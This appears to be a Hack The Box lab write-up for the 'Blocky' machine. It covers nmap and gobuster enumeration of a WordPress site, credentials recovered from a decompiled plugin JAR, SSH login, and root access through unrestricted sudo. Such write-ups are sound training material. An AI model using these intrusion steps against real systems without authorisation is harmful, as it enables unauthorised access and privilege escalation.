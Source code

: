 ```yaml
---
layout: writeup
title: Blocky
description: HTB writeup
logo: /assets/img/writeups/blocky_logo.png
show-avatar: false
permalink: /writeups/blocky.html
OS: Linux
difficulty: Easy
release: 21 Jul 2017
creator: <a href="https://www.hackthebox.eu/home/users/profile/2904">Arrexel</a>
cleared: 3 Nov 2019
published: 2019 11 03
redirect_from: /walkthroughs/blocky.html
---
```


<h2 align="center">Enumeration</h2>
Starting with a standard nmap scan...

```
# Nmap 7.80 scan initiated Fri Nov  1 19:17:36 2019 as: nmap -sC -sV -p- -oN nmapscan.txt 10.10.10.37
Nmap scan report for 10.10.10.37
Host is up (0.098s latency).
Not shown: 65530 filtered ports
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  1 19:20:49 2019 -- 1 IP address (1 host up) scanned in 192.23 seconds

```

We see there is a wordpress page running on port 80

<img src="/assets/img/writeups/blocky_wordpress.png" alt="wordpress" style="zoom: 50%;" />



Running 

```sh
gobuster dir -w <wordlist> -x .php,.txt -o <outputfile> -u http://10.10.10.37
```

with the appropriate wordlist yielded the following results

```sh
/index.php (Status: 301)
/wiki (Status: 301)
/wp-content (Status: 301)
/wp-login.php (Status: 200)
/plugins (Status: 301)
/license.txt (Status: 200)
/wp-includes (Status: 301)
/javascript (Status: 301)
/wp-trackback.php (Status: 200)
/wp-admin (Status: 301)
/phpmyadmin (Status: 301)
/wp-signup.php (Status: 302)
/server-status (Status: 403)
```

We see several interesting possibilities for further enumeration and exploit paths, what we need  however is in /plugins

![plugins](/assets/img/writeups/blocky_plugins.png)

downloading both these files and looking at them with **jd-gui** shows us the following

![blockycore](/assets/img/writeups/blocky_blockycore.png)

This login and password will get us into the phpmyadmin portal, where we can look at the mySQL wordpress users table and find there is a user named **notch**, or more simply we can direct our browser to http://10.10.10.37/?author=1 and get the user name there.

This user and pass gives us login to FTP and SSH. We obviously login to SSH. We can then read the user.txt file.

Gaining root is as simple as running "sudo -l" and seeing the notch can run everything as root, and then switching to root, which we can do as we have notch's password

```
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su
root@Blocky:/home/notch# whoami
root
root@Blocky:/home/notch# 

```

which gives us access to the root.txt flag.
